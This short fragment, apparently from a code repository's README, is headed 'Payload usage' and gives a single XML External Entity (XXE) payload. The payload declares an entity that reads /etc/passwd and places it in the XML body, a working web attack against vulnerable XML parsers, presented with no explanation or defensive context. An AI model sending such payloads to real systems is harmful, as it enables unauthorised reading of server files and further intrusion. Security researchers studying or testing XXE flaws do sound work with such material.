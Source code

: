 # Payload usage
```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```
